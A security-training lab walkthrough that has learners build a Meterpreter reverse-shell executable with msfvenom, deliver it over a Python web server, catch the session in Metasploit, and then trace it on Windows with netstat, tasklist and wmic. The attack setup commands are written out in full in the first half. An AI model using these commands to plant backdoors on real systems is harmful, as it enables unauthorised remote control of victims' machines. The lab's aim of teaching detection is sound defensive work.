





# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actualy just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Lets get started.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

On your Linux system, please run the following command:

$`ifconfig`

Please note the IP address of your Ethernet adapter. 

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

Now, let’s surf to your Linux system, download the malware and run it!

Simply open an edge browser to `http://<YOUR LINUX IP>:8000`

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session.

Now, lets look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP addresses will be different!!! 

Now, lets open another Command Prompt from our Terminal:

Once we are in, lets start with looking at the network connections:

We will start with C:\>`net view`

In this example, our malware will not have any sessions at all:

We will get the same lack of connections from C:\>`net session`

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try 

C:\>`netstat -naob`

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, lets drill down on that connection with some more data:

C:\>`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

C:\>`netstat -naob`

We can see in the above screenshot that we have the PID.

Now, lets dive in!

First we will start with tasklist  

C:\>`tasklist /m /fi "pid eq [PID]"`

Your PID WILL BE DIFFERENT!

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Lets keep digging with wmic:

C:\>`wmic process where processid=[PID] get commandline`

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.

Let's see if we can see what spawned the process with wmic.

C:\> `wmic process get name,parentprocessid,processid`

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launced by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser. 

 

